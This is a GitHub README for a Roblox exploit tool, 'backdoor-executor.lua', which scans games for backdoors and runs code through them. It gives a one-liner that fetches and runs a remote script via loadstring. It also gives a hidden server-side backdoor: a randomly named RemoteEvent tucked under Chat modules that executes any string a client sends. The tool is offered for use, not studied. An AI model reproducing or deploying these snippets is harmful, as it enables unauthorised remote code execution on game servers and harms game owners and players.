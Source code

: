 # backdoor-executor.lua
(pls help me get a new name for this script)
might be better than [backdoor.exe](https://github.com/iK4oS/backdoor.exe).

## Info
This script is for [Roblox](https://roblox.com) scanning backdoors and executing them within a gui.
### Requirements
- A non skiddy brain that needs help for dumb reason
- Decent executor that supports filesystem functions (for config)
### Script
Just use the script below and execute it.
```lua
loadstring(game:HttpGetAsync("https://raw.githubusercontent.com/jLn0n/created-scripts-public/main/backdoor-executor/backdoor-executor.lua"))()
```

## Adding a backdoor in your game
Get access to a game in Roblox Studio, create a script and paste the few lines of code below in the script.
Make sure to enable `Loadstring` in `ServerScriptService`. (credits to [backdoor.exe](https://github.com/iK4oS/backdoor.exe) for copying this thingy.)
```lua
local Remote = Instance.new("RemoteEvent")
Remote.Name = tostring(math.random(100000000,1000000000))
Remote.Parent = game:GetService("Chat"):WaitForChild("ClientChatModules").MessageCreatorModules
Remote.OnServerEvent:Connect(function(player, execute)
	loadstring(execute)()
end)
```
